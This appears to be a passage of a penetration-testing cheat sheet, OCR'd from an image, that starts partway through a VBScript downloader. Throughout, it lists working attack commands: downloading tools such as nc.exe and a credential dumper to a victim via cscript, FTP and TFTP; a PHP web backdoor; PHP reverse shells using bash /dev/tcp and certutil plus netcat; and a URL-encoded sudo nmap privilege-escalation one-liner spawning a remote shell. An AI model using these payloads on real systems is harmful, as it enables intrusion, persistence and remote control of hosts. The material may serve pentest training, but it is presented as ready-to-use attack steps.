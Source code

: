                        echo http.Send >> wget.vbs
                        echo varByteArray = http.ResponseBody >> wget.vbs
                        echo Set http = Nothing >> wget.vbs
                        echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
                        echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
                        echo strData = "" >> wget.vbs
                        echo strBuffer = "" >> wget.vbs
                        echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
                        echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
                        echo Next >> wget.vbs
                        echo ts.Close >> wget.vbs
                  → cscript wget.vbs http://10.11.0.6/wce32_upx.exe wce32_upx.exe
            ▪ FTP Non interactive mode
                   →  ftp -A 10.11.0.106
                   → binary
                   → GET nc.exe
                   → bye
             ▪ TFTP
                   → tftp -i 10.11.0.106 GET exploit.exe


-------------------------------------------------------------------------------------------------------------------------------------

SHELLS

    Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

    Interactive shell:
       •python -c 'import pty; pty.spawn("/bin/bash")'
       • echo os.system('/bin/bash')

    Adjust Interactive shell:
       • Ctrl-Z
       • echo $TERM    //find term
       • stty raw -echo  //disable shell echo
       • fg
       • reset
       • export SHELL=bash
       • export TERM=xterm

    Php backdoor:
       •  <?php echo shell_exec($_GET['cmd']);?>

    Php shell:
       •  <?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>
       • <?php echo shell_exec('certutil.exe -urlcache -split -f "http://10.11.0.106:8000/nc.exe" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe');?>

-------------------------------------------------------------------------------------------------------------------------------------
echo+%27os.execute%28%22nc+-e+%2Fbin%2Fsh+192.168.XX.XX+445%22%29%27+%3E+%2Fvar%2Ftmp%2Fshell.nse+%26%26+sudo+nmap+--script+%2Fvar%2Ftmp%2Fshell.nse 
PSSWD CRACKING
      • Look for the hash in online databases
